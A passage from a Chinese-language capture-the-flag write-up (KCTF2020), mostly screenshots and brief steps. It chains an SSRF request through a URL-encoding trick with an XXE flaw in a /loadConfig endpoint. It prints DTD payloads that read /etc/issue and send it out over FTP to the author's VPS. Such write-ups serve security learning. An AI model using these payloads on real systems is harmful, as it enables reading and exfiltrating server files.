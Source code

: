 ![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic11.png)

发到burp中继续尝试：  

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic12.png)

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic13.png)

发现会从 `/loadConfig?url=x.xml` 指定的位置读取文件并当作XML来解析，猜测XXE漏洞  

在自己的vps上放了以下payload：  

    =================================================================================
    <!-- t.dtd -->
    <?xml version="1.0" ?>
    <!DOCTYPE r [
    <!ELEMENT r ANY >
    <!ENTITY sp SYSTEM "file:///etc/issue">
    ]>
    <r>&sp;</r>
    =================================================================================

构造请求：  

    /getimage?url=http://127.0.0.1%253a8088%2523.pediy.com/loadConfig?url=http://{my_vps_ip}:5000/t.dtd

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic14.png)

没有正常回显内容，尝试用FTP协议把内容发送出来，payload:  

    =================================================================================
    <!-- c.dtd -->
    <?xml version="1.0"?>
    <!DOCTYPE r [
    <!ENTITY % data3 SYSTEM "file:///etc/issue">
    <!ENTITY % sp SYSTEM "http://my_vps_ip:5000/d.dtd">
    %sp;
    %param3;
    %exfil;
    ]>
    =================================================================================
    <!-- d.dtd -->
    <!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://my_vps_ip:30000/%data3;'>">
    =================================================================================

并在vps的30000端口上起了ftp服务，脚本：https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb  

构造请求：  

    /getimage?url=http://127.0.0.1%253a8088%2523.pediy.com/loadConfig?url=http://my_vps_ip:5000/c.dtd

在vps上接收到内容 `/etc/issue` 文件的内容：  

![ ](https://boringboys-1254394685.cos.ap-shanghai.myqcloud.com/img/KCTF2020-First-WP/pic15.png)

但是尝试读含有特殊字符的文件时，就无法正常发送数据到vps:  
